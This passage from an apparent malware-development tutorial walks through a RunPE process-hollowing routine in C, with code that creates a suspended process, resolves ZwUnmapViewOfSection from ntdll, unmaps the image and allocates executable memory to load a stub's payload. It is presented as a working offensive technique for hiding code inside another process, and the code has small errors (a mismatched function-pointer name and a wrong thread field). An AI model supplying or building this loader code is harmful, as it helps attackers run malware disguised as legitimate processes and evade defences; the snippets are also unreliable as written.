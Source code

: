 ```c
    si.cb = sizeof(si);
    // create suspended process
    CreateProcess(szFileName, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

}
```

> [!NOTE]
> `szFileName` can be a full path to any executable file such as `explorer.exe` or `iexplore.exe` but for this example, we will be using the stub's file. The `CreateProcess` function will create a child process of the specified file in a suspended state so that we can modify its virtual memory contents to our needs. Once that has been achieved, we should obtain its thread context before changing anything.

```c
VOID RunPE(VOID) {
    ...

    // obtain thread context
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pi.Thread, &ctx);

}
```

And now will hollow out an area of the process’s virtual memory so we can allocate our own space for the application. For this, we require a function which is not readily available to us so we will require a function pointer to point to a dynamically retrieved function from the `ntdll.dll` DLL.

```c
typedef NTSTATUS (*fZwUnmapViewOfSection)(HANDLE, PVOID);

VOID RunPE(VOID) {
    ...

    // dynamically retrieve ZwUnmapViewOfSection function from ntdll.dll
    fZwUnmapViewOfSection pZwUnmapViewOfSection = (fZwUnmapViewOfSection)GetProcAddress(GetModuleHandle("ntdll.dll"), "ZwUnmapViewOfSection");
    // hollow process at virtual memory address 'pinh->OptionalHeader.ImageBase'
    pZwUnMapViewOfSection(pi.hProcess, (PVOID)pinh->OptionalHeader.ImageBase);

    // allocate virtual memory at address 'pinh->OptionalHeader.ImageBase' of size `pinh->OptionalHeader.SizeofImage` with RWX permissions
    LPVOID lpBaseAddress = VirtualAllocEx(pi.hProcess, (LPVOID)pinh->OptionalHeader.ImageBase, pinh->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

}
```

Since the suspended process has its own content inside its virtual memory space, we are required to unmap it from memory and then allocate our own so that we have the correct access and permissions to load our application’s image. We will do this with the `WriteProcessMemory` function. First, we need to write the headers and then each section individually as the Windows loader would. This section requires a thorough understanding of the PE file structure.
